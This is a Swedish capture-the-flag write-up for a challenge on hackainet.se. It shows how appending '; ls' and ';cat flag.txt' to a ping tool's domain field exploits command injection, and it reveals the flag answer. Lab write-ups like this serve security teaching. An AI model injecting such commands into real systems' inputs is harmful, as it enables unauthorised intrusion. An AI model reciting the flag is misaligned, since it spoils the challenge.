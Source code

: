 # Flagga 12 - *Medelsvår*
Beskrivning: *Du får ingen hjälp*

Url: *https://hackainet.se/flag12*

## Writeup
Nu verkar vi kommit till en sida där vi kan köra ping-kommandot för olika domäner. Vilket vi kan bekräfta genom att göra en sökning för `google.com`.
![Skärmdump](https://user-images.githubusercontent.com/34009701/236608739-f8eb86ea-6f4f-4f8e-81bc-83931d38de34.png)

Detta gör en intresserad av huruvida man kan lägga till andra kommandon efter ping-kommandot. Vi testar att lägga till `; ls` på slutet av kommandot.

Detta ger oss svaret:
> PING google.com (142.250.74.142) 56(124) bytes of data.
> 
> --- google.com ping statistics ---
> 
> 1 packets transmitted, 0 received, 100% packet loss, time 0ms
> 
> **flag.txt**

På slutet ser vi att det finns en fil som heter flag.txt. Vi testar att läsa den genom att lägga till `;cat flag.txt` på slutet av kommandot.

Svaret blir:
> PING google.com (142.250.74.142) 56(124) bytes of data.
> 
> --- google.com ping statistics ---
> 
> 1 packets transmitted, 0 received, 100% packet loss, time 0ms
> 
> **Snyggt jobbat där! Anders är stolt! flaggan du letar efter: inet_och_eset_gillar_dig**

Flaggan är alltså `inet_och_eset_gillar_dig`
